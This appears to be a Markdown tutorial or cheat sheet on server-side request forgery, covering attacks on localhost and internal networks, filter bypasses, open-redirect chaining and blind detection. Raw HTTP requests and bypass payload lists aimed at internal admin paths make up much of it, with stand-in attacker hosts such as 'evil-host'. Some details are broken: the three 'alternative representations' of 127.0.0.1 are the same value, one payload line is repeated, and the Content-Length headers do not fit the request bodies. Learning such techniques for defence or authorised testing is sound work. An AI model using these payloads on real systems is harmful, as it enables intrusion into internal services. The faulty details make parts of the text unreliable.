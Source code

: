 ```yaml
---
title: Server-Side Request Forgery (SSRF)
category: Web
order: 15
---
```


Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location. 

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems. This could leak sensitive data, such as authorization credentials.


# SSRF Attacks againts the server

The attacker causes the application to make HTTP request back to the server that is hosting the application by suppling a URL with `127.0.0.1` or `localhost`.

**We can bypass waf protections, or bypass some access control mechanisms via origin IP.**

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

# SSRF Attacks against local network

In some cases, the application server is able to interact with back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses.

**We can scan local networks in order to find new servers**

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

# SSRF input filters

## Blacklist-based

Some applications block `localhost` or `127.0.0.1` or sensitive urls like `/admin`.

* Use alternative representation of `127.0.0.1` such as `2130706433`, `2130706433` or `2130706433`.
* Register you own dns that resolves to `127.0.0.1`. use `spoofed.burpcollaborator.net`.
* Ofuscate blocked strings using URL encoding or case variations
* Provide a URL that you control, which redirects to the target URL. Try different redirect codes, as well different protocols `http`, `https`.

Example of payloads:

```
http://lOcalHost/Admin
http://localhost/%61%64%6d%69%6e
http://2130706433/admin
http://2130706433/admin
http://spoofed.burpcollaborator.net/admin
https://redirector.burpcollaborator.net/
```

## Whitelist-based

Some applications only allow inputs that match, a whitelist of permitted values. The filter may look for a match at the beginning of the input, or contained within in it. You may be able to bypass this filter by exploiting inconsistencies in URL parsing. 

* We can embed credentials on the url and we can use it to specify the hostname `http://expected-host:fakepass@evil-host`.
* We can use `#` to indicate a URL fragment `http://evil-host/#expected-host`.
* Use a subdomain. `http://expected-host.evil-host`.
* URL-encode characters to confuse the URL-parsing code.
* Use a combination of all techniques.

## Bypass filters via open redirect

It is sometimes possible to bypass filter-based defenses by exploiting an open redirection vulnerability. 

For example, the application contains an open redirection vulnerability in which the following URL: 

```
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

Returns to:

```
http://evil-user.net
```

We can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF.

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

# Blind SSRF

Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

## Blind SSRF out-of-band detection

The easiest and most effective way to use out-of-band techniques is using Burp Collaborator. You can use Burp Collaborator to generate unique domain names, send these in payloads to the application, and monitor for any interaction with those domains. If an incoming HTTP request is observed coming from the application, then it is vulnerable to SSRF.

```
http://burpcollaborator.net/
```